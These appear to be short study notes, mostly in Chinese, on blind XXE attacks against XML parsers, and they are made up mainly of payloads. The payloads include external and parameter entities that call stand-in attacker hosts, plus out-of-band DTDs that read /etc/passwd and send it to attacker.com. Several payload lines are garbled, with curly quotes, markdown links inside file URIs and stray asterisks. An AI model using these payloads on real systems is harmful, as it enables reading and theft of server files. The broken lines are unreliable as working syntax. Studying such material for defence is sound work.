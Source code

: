 DTD就是整个payload entity在里面（xxe）



2.Blind XXE vulnerabilities

- 定向到自己的服务器

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

- 利用错误信息传递返回结果

### PARAMETRIC ENTITIES:

自定义ENTITY被ban

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

### Exploiting blind XXE to exfiltrate data out-of-band

利用服务器上的xml代码读取并传送敏感数据到服务器

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### 服务器dtd file

1.

```xml
<!ENTITY % file SYSTEM "[file:///etc/passwd](file://etc/passwd)">
<!ENTITY % eval "<!ENTITY &#x25（就是%）; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

 

2.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>

<!DOCTYPE data [ <!ENTITY % file SYSTEM “[file:///etc/passwd](file://etc/passwd)"> 
<!ENTITY % dtd SYSTEM “http://attacker.com/evil.dtd">%dtd; ]>
```

evil.dtd:

```xml
<!ENTITY % all “<!ENTITY send SYSTEM ‘*[*http://attacker.com/?collect=%file;'*](http://attacker.com/?collect=%file;')*>">*
执行
%all;
```
